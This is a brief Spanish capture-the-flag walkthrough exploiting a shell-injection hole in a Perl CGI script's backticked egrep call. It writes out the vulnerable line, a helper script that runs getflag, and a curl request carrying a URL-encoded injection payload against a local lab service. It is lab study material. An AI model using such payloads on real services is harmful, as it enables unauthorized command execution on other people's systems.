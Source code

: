 - Tenemos un scrip en perl
- Lo unico interesante que veo en el codigo del script es esta línea:
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
- Esta línea hace un egrep con el primer parametro de la consulta y aquí es donde está el vector de ataque
- El primer parametro es tratado para ponerlo en uppercase y quitar espacios
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
- Se me ocurre intentar inyectar algo en el parametro para poder saltar el egrep y editar un archivo /tmp/xd para ejecutar condigo
- Lo primero es crear el archivo /tmp/xd
#!/bin/bash
/bin/getflag > /tmp/a
- Damos permisos al archivo /tmp/xd (importante)
- Ahora queda la inyeccion
- "|1>&2" quedando la línea egrep ""|1>&2"" /tmp/xd 2>&1
- se lo paso por curl
curl 'http://127.0.0.1:4646/?x="|1>&2"'
- No funciona porque el caracter & hay que urlncoder %26 quedando la inyeccioón
"|1>%262"
- Ahora cat a /tmp/a
- Listo

